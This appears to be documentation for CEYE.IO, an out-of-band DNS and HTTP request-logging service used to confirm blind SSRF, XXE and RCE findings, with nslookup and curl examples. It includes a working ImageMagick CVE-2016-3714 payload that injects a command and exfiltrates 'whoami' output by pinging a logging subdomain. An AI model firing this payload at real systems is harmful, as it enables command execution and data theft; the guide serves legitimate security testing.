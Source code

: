 # Introduce
CEYE.IO platform, which monitoring DNS queries and HTTP requests through its own DNS server and HTTP server, it can also create custom files as online payloads. It can help security researchers collect information when testing vulnerabilities (e.g. SSRF/XXE/RFI/RCE).

For each user, there is a six random characters unique identifier code and unique subdomain value, it can be found in profile page. All DNS queries and HTTP requests for the subdomain and followings are logged. For example, b182oj is the unique identifier code for someone, and b182oj.ceye.io is his/her subdomain. All DNS quries and HTTP requests for b182oj.ceye.io and *.b182oj.ceye.io will be recorded. All records can export from the server, by processing these access logs, researchers are be able to confirm and improve their research.

## DNS Queries
DNS queries resolve in a number of different ways. In this case, CEYE.IO platform provide a dnsserver to resolve domain - ceye.io. Its nameserver address is set to own server IP, therefore all DNS queries about domain - ceye.io will be sent to own DNS server eventually.

For example, use nslookup to query dnsquery.test.b182oj.ceye.io in terminal, and you will found this querying in record page: 

![](https://images.seebug.org/ceye/dns-query-1.png)

The Remote column recording client ip address, Query Name column recoding domain name client queried, UPDate column show the last time queried, and Count column show how many times querying for this domain. 

![](https://images.seebug.org/ceye/dns-query-2.png)

Also, there is all records detail about b182oj.ceye.io or *.b182oj.ceye.io DNS queries in DNS queries page. In this page, You can clearly or export these records.

CVE-2016–3714 - the RCE vulnerability in ImageMagick, influencing many applications used this componment, but in this case, may be there is no feedback when testing this vulnerability, because of ImageMagick couldn't return any information usually. With CEYE.IO platform, you can send Payload with a specail mark to collect the command execution result returned.

e.g. (cve-2016-3714.mvg)

  push graphic-context
  viewbox 0 0 640 480
  fill 'url(https://example.com/"|ping `whoami`.rce.imagemagick.b182oj.ceye.io")'
  pop graphic-context

whoami will be executed in linux system if this host is vulnerable, and padding its value with .rce.imagemagick.b182oj.ceye.io, ping command will be executed, you will found the result in DNS queries page if succeed: 

![](https://images.seebug.org/ceye/dns-query-3.png)

## HTTP Requests
CEYE.IO platform has own HTTP server to record all requests for user domain name. That can be used to do some interesting things. For example, use curl to request http://httprequest.test.b182oj.ceye.io/hello/?p=httptest in terminal, and you will found this querying in record page: 
![](https://images.seebug.org/ceye/http-request-1.png)

In backend, CEYE.IO platform will record the IP address of client, the URL requested, the User-Agent of client enviroment, etc. You can found the detail in HTTP requests page: 

![](https://images.seebug.org/ceye/http-request-2.png)